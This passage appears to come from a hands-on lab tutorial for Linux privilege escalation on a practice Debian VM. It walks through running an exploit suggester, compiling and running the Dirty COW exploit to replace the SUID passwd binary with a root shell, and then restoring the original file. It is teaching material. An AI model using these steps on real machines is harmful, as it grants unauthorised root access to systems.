 Run the **Linux Exploit Suggester 2** tool to identify potential kernel exploits on the current system:

`perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl`

The popular Linux kernel exploit "Dirty COW" should be listed. Exploit code for Dirty COW can be found at **/home/user/tools/kernel-exploits/dirtycow/c0w.c**. It replaces the SUID file /usr/bin/passwd with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak).

Compile the code and run it (note that it may take several minutes to complete):

`gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w  
./c0w`

Once the exploit completes, run /usr/bin/passwd to gain a root shell:

`/usr/bin/passwd`

Remember to restore the original **/usr/bin/passwd** file and exit the root shell before continuing!

`mv /tmp/bak /usr/bin/passwd  
exit`

##  Privilege Escalation Scripts

Several tools have been written which help find potential privilege escalations on Linux. Three of these tools have been included on the Debian VM in the following directory: **/home/user/tools/privesc-scripts**